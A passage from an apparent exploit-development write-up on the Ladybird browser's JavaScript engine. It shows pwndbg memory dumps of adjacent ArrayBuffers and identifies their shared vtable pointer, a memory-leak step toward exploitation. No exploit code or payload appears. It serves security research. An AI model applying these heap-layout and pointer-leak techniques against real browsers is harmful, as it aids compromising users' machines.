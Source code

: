 ![](./assets/kek_leak.png)

As we suspected, two locally created `ArrayBuffer`s appear side-by-side in memory. Let’s take a closer look at them in the debugger:
```
pwndbg> x /40gx 0x000076140c479400
0x76140c479400: 0x00005c5dc2239150      0x0000000000000000
0x76140c479410: 0x0000000000000100      0x00007614044bd3e8
0x76140c479420: 0x0000000000000000      0x0000000000000000
0x76140c479430: 0x0000000000000000      0x0000000000000000
0x76140c479440: 0x0000000000000000      0x7777777777777777
0x76140c479450: 0x0000000000000000      0x0000000000000000
0x76140c479460: 0x0000000000000000      0x0000000000000008
0x76140c479470: 0x0000000000000001      0x0000000000000001
0x76140c479480: 0x0000000000000000      0x0000000000000000
0x76140c479490: 0x0000000000000000      0x7ffe000000000000
0x76140c4794a0: 0x00005c5dc2239150      0x0000000000000000
0x76140c4794b0: 0x0000000000000100      0x00007614044bd3e8
0x76140c4794c0: 0x0000000000000000      0x0000000000000000
0x76140c4794d0: 0x0000000000000000      0x0000000000000000
0x76140c4794e0: 0x0000000000000000      0x00005c5df5ebf0e0
0x76140c4794f0: 0x0000000000000088      0x0000000000000000
0x76140c479500: 0x0000000000000000      0x0000000000000088
0x76140c479510: 0x0000000000000000      0x0000000000000001
0x76140c479520: 0x0000000000000000      0x0000000000000000
0x76140c479530: 0x0000000000000000      0x7ffe000000000000
```
First, we notice that both `ArrayBuffer`s are laid out sequentially in memory, and they both have the same 8-byte address at their start:
```
pwndbg> x /gx 0x000076140c479400
0x76140c479400: 0x00005c5dc2239150
pwndbg> x /gx 0x000076140c479400+0xa0
0x76140c4794a0: 0x00005c5dc2239150
```
Let’s inspect that address: `0x00005c5dc2239150`.
```
pwndbg> info symbol 0x00005c5dc2239150
vtable for JS::ArrayBuffer + 16 in section .data.rel.ro of target:/work/ladybird/libexec/WebConten
```
That’s the vtable pointer of the `ArrayBuffer` object.
